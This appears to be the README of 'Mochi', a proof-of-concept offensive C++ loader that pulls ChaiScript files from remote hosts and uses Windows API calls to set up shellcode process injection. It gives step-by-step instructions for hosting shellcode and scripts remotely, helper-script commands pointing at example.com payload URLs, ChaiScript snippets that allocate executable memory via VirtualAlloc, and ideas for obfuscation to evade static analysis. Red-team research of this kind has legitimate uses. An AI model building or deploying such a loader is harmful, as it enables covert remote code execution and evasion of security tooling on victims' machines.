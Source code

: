 # Mochi | 餅

![logo](mochi-img.png)

## Overview
Mochi is a proof-of-concept C++ loader that leverages the [ChaiScript](https://chaiscript.com/) embedded scripting language to execute code. It is based on the [lcscript](https://github.com/domzigm/lcscript) project that extends ChaiScript with native Windows API call support. Mochi was built to allow remote loading of ChaiScript files that orchestrate lower level code and execute offensive actions with the Windows API.

Using a scripting language to extend malware in C++ is not a new idea. Of notable mention is the [Flame malware](https://en.wikipedia.org/wiki/Flame_(malware)), whose authors scripted high-level logic in [Lua](https://www.lua.org/). However, Mochi demonstrates that ChaiScript can be a viable alternative for implementing modularity and interacting with the Windows API from a scripting language. Additionally, ChaiScript was designed from the beginning to be used with C++. This makes integration and development straightforward for projects written in that language.

Inspiration for this capability came from the game development community and their usage of scripting languages with game engines. ChaiScript has been integrated into several game engines to support scripting functionality. For reference, see the following projects:
* https://github.com/libretro/libretro-chailove
* https://github.com/sainteos/nymph-game-engine
* https://gitlab.com/define-private-public/Masala

![screen_0](https://i.imgur.com/VhwNCdO.png)

## Features
* Code to perform tasks such as process injection can be omitted from the loader until required by an operator at runtime.
* Easily extend the Mochi loader with additional functionality using ChaiScript files. 
    * Included sample script ([inject.chai](Mochi/scripts/inject.chai)) demonstrates usage of the Windows APIs (VirtualAlloc, RtlMoveMemory) to setup shellcode injection.

## Limitations
* Code used to expose ChaiScript to the Windows API is no longer maintained by the original author.
* Usage of pointers within ChaiScript Windows API calls is complicated.
* A limited number of Windows API calls have been tested and successfully used within ChaiScript, there may be issues with implementing more complicated APIs.
* The `inject.chai` script sets up memory for process injection, but relies on a function defined within `Mochi.cpp` to perform the execution.

## Setup

### Build Environment
* A Windows 10 host was used as the environment for testing/compilation. 
* Visual Studio 2019 was used for development of this project.
* The Visual Studio package [Desktop Development with C++](https://devblogs.microsoft.com/cppblog/windows-desktop-development-with-c-in-visual-studio) was installed to support building the loader in C++.
* vcpkg was used to build and install the required ChaiScript libraries, it can be installed [here](https://github.com/microsoft/vcpkg#quick-start-windows).

### Automated Installation with vcpkg
I've used the script located [here](/helper_scripts/install_chaiscript_cpp_deps.ps1) to automate installation of **vcpkg** and the **ChaiScript** libraries on my host. Use this if you don't already have vcpkg installed.
* **NOTE:** Git is needed to fetch the vcpkg from GitHub and can be installed for Windows [here](https://gitforwindows.org).

### Manual Installation with vcpkg

To build the ChaiScript libraries, navigate to the location of your vcpkg install and execute the following command:
```
.\vcpkg.exe install chaiscript:x64-windows-static
```

## Usage

### Proof-of-Concept
The Mochi loader implements local process injection of a shellcode payload. This is intended to demonstrate the technique of using ChaiScript files that leverage the Windows API for offensive tasks. To do this, you'll need to perform the following steps:
1. Generate a shellcode payload in binary format.
* During testing, [sRDI](https://github.com/monoxgas/sRDI) was used to convert a [message box payload](https://github.com/monoxgas/sRDI/tree/master/TestDLL) DLL file to a shellcode "*.bin" file.
2. Upload the shellcode payload binary file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
3. Execute the following PowerShell helper script with your shellcode payload URL:
```
.\helper_scripts\chaiscript_inject_module_init.ps1 -payloadUrl "https://example.com/shellcode.bin"
```
4. At this point, the `inject.chai` file at the `Mochi\scripts\` path will be populated with your shellcode payload URL and be ready to execute.
5. Upload the `inject.chai` file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
6. Execute the following PowerShell helper script with your ChaiScript file URL:
```
.\helper_scripts\chaiscript_inject_module_init.ps1 -scriptUrl "https://example.com/inject.chai"
```
7. At this point, the `Mochi.cpp` file at the `Mochi\` path will be populated with your ChaiScript file URL and be ready for compilation.
8. Compile Mochi in the Visual Studio project and execute binary to validate successful initialization.

### Writing Scripts
To demonstrate how scripts can be written with ChaiScript to call the Windows API, see the following steps to call VirtualAlloc from kernel32.dll inside a ChaiScript file:
1. Import the library:
```
var libKernel32 = LoadLibrary("kernel32.dll");
```
2. Initialize the desired function:
```
var allocMem = funCall();
allocMem.init(libKernel32, "VirtualAlloc", 2);
```
3. Set up the required arguments:
```
var payload = "\xde\xad\xbe\xef";
var size = payload.size();
var allocType = 0x00001000;
var memProtect = 0x40;

allocMem.argUInt64(0);
allocMem.argUInt64(size);
allocMem.argUInt64(allocType);
allocMem.argUInt64(memProtect);
```
4. Call the function and assign the return value to a variable:
```
var allocAddr = allocMem.evalUInt64();
```

## OPSEC Considerations
Due to the PoC nature of this project, it was not built with OPSEC in mind. However, I will outline some possible features that could be present in a production deployment of this kind of project as well as OPSEC caveats:
* Feature: Encryption/decryption of ChaiScript files.
* Feature: Obfuscation/deobfuscation of ChaiScript files.
* Feature: Addition of ChaiScript modules that implement more modern methods of shellcode injection.
* Feature: Built-in string obfuscation in Mochi.
* Caveat: Mochi obscures the malicious intent of the binary during static analysis by omitting offensive functionality until execution of ChaiScript files during launch. It will ***NOT*** change anything from an evasion standpoint when it is observed during dynamic analysis. Additional obfuscation and evasion would need to be implemented in the ChaiScript files themselves if the intent is to mislead dynamic analysis tooling.

## Credits
* Dominik for the Windows API call support: https://github.com/domzigm/lcscript
* ondradus for the PoC HTTP request code: https://github.com/ondradus/WinINet---Simple-GET-POST-request
